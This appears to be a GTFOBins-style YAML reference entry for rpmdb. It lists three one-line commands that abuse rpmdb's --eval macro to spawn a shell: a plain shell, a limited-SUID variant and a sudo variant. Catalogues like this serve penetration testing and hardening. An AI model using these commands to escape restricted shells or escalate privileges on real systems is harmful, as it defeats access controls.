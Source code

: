 ```yaml
---
functions:
  shell:
    - code: rpmdb --eval '%(/bin/sh 1>&2)'
  limited-suid:
    - code: ./rpmdb --eval '%(/bin/sh 1>&2)'
  sudo:
    - code: sudo rpmdb --eval '%(/bin/sh 1>&2)'
---
```

